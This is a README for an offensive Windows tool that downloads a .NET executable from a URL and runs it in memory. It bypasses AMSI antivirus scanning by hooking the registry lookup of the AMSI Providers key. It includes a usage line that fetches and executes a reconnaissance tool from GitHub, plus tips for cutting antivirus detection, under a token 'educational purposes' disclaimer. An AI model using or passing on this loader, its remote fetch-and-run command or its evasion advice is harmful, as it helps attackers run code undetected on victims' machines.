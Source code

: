 # TrollDisappearKey
TrollDisappear.exe is a loader which allows loading of .exe assemblies (provide URL to assembly) without amsi scanning taking place during assembly.load()

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)

We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load and .net assembly we want  
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

# What's unique?
concept is hooking / byte patching so nothing much really. 
This works specifically for clr bypass not powershell. It used to work for powershell >1 year ago but something updated and it broke. 
  
## Usage 
```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```
## Detections 
Not too bad since zero effort to evade detection, there's tons of things to improve but i shall leave it to the reader
you can immediately drop it to maybe 5 by altering the ExecuteAssembly() function since its using standard code that's deemed malicious
Can rename certain strings the the reg key path 
Avoid the use of certain API calls and improve the hook library further
![Image](https://github.com/user-attachments/assets/246e956a-9a64-45c8-b3a8-0acf7b7cb5b8)

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Credits
1. Modified hooking library from https://github.com/liulilittle/NetHook

## Disclaimer
Should only be used for educational purposes!
